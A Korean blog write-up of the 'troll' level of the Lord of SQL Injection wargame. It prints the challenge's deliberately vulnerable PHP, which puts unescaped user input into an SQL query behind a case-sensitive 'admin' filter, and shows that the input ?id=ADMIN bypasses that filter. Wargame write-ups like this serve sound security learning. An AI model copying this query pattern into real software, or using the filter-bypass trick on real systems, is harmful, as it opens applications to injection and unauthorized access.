 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - troll 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제의 이름은 `troll`이다.  

중간중간에 좀 쉬운 문제들이 있어서 하루에 여러개 빠박! 풀고 싶은데 그러면 내가 일을 안할 것 같으니 한문제 씩만 풀어야겠다.  

이번 문제는 매우 간단하다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------
query : select id from prob_troll where id=''
----------------------------------------------------------

<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

쿼리를 완성시켜 `id`가 `admin`인 결과를 가져오면 된다.  

그런데 코드 중간을 보면 `ereg("admin", %_GET['id'])`라는 부분이 있다.  

`ereg()` 함수는 정규표현식을 이용해서 일치하는 문자열이 있는지를 찾아주는 함수이다.  

이 문제에서는 사용자가 입력 한 `id`에  `admin`이라는 문자열이 있는지 없는지를 검사한다.  

`id`가 `admin`인 결과를 추출해야 하는데 `admin`에 필터링이 걸려있다.  

그래서 `ereg()` 함수에 오류가 있거나 필터링이 완벽하지 않을 것이라고 생각하고 문제에 접근했다.  

이 전에도 몇번 언급했다시피 `MySQL`에서는 대소문자 구분이 없다.  

때문에 `id`가 `admin`인 결과를 추출하기 위해서 쿼리의 `where`절에 `admin`, `Admin`, `ADMIN` 등을 입력해도 결국 같은 값을 얻을 수 있다.  

찾아보니 `ereg()` 함수는 대소문자를 구분하는 함수이다.  

그래서 `admin`이라는 단어가 있다면 `true`를 반환하겠지만 `Admin`, `ADMIN` 처럼 한 글자라도 대문자로 구성한다면 `false`를 반환 할 것이다.  

그렇다면 필터링도 우회하고 쿼리도 정상적으로 실행 해 문제를 풀 수 있다.  

역시나 아래와 같이 입력했더니 문제를 풀 수 있었다.  

```
?id=ADMIN
```

```php
-------------------------------------------------------------------
query : select id from prob_troll where id='ADMIN'
-------------------------------------------------------------------

TROLL Clear!
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

`TROLL Clear!!`
